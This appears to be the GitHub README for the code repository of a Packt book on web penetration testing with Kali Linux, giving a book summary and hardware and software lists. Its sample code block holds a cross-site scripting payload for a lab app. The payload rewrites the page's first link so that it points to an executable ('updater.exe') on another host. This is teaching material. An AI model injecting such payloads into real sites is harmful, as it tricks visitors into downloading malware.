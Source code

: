 # Mastering Kali Linux for Web Penetration Testing
This is the code repository for [Mastering Kali Linux for Web Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-web-penetration-testing?utm_source=github&utm_medium=repository&utm_campaign=9781784395070), published by [Packt](https://www.packtpub.com/?utm_source=github). It contains all the supporting project files necessary to work through the book from start to finish.
## About the Book
You will start by delving into some common web application architectures in use, both in private and public cloud instances. You will also learn about the most common frameworks for testing, such as OWASP OGT version 4, and how to use them to guide your efforts. In the next section, you will be introduced to web pentesting with core tools and you will also see how to make web applications more secure through rigorous penetration tests using advanced features in open source tools. The book will then show you how to better hone your web pentesting skills in safe environments that can ensure low-risk experimentation with the powerful tools and features in Kali Linux that go beyond a typical script-kiddie approach. After establishing how to test these powerful tools safely, you will understand how to better identify vulnerabilities, position and deploy exploits, compromise authentication and authorization, and test the resilience and exposure applications possess.


## Instructions and Navigation
All of the code is organized into folders. Each folder starts with a number followed by the application name. For example, Chapter02.

Chapter 01, 02, 04, 05, 09, 11, and 12 doesn't contain code files.

The code will look like the following:
```
http://172.16.30.129/mutillidae/index.php?page=user-info.php
&username=
Infiltrating Sessions via Cross-Site Scripting
[ 20 ]
<script>window.onload = function() {var
AllLinks=document.getElementsByTagName("a"); AllLinks[0].href =
"http://172.16.30.128/updater.exe"; }</script>
```

Hardware list:
The exercises performed in this book and the tools used can be deployed on any modern
Windows, Linux, or Mac OS machine capable of running a suitable virtualization platform
and a more recent version of the OS. Suggested minimum requirements should allow for at
least the following resources to be available to your virtual platforms:
4 virtual CPUs
4-8 GB of RAM
802.3 Gigabit Ethernet, shared with host machine
802.11a/g/n/ac WiFi link, shared with host machine
Software list:
Desktop/Laptop Core OS and Hypervisor:
Virtualization should be provided by one of Kali Linux's supported hypervisors, namely
one of the following options. The operating system and hardware will need to support the
minimum requirements, with an eye toward dedicating the previous hardware
recommendations to the guest virtual machines.

## Related Products
* [Mastering Kali Linux for Advanced Penetration Testing - Second Edition](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-advanced-penetration-testing-second-edition?utm_source=github&utm_medium=repository&utm_campaign=9781787120235)

* [Mastering Kali Linux for Advanced Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-kali-linux-advanced-penetration-testing?utm_source=github&utm_medium=repository&utm_campaign=9781782163121)

* [Kali Linux Web Penetration Testing Cookbook](https://www.packtpub.com/networking-and-servers/kali-linux-web-penetration-testing-cookbook?utm_source=github&utm_medium=repository&utm_campaign=9781784392918)

